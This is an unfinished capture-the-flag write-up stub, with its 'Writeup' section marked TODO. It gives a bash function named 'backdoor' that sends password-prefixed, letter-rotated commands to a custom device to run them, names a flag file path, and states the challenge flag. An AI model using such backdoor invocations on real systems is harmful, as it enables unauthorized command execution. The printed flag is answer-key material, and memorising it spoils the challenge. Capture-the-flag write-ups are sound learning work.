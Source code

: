 # Title

TODO: Writeup

# Backdoor

```bash
backdoor() { echo -n "hunter2 $@ > /tmp/pwn 2>&1" | tr "A-Za-z" "M-ZA-Lm-za-l" > /dev/sinput && cat /tmp/pwn; }
```

`/home/h4x0r/flag.txt`

# Flag
`CQ24{th3_k3rn3l_1s_4n_1nt3rpRe7er}`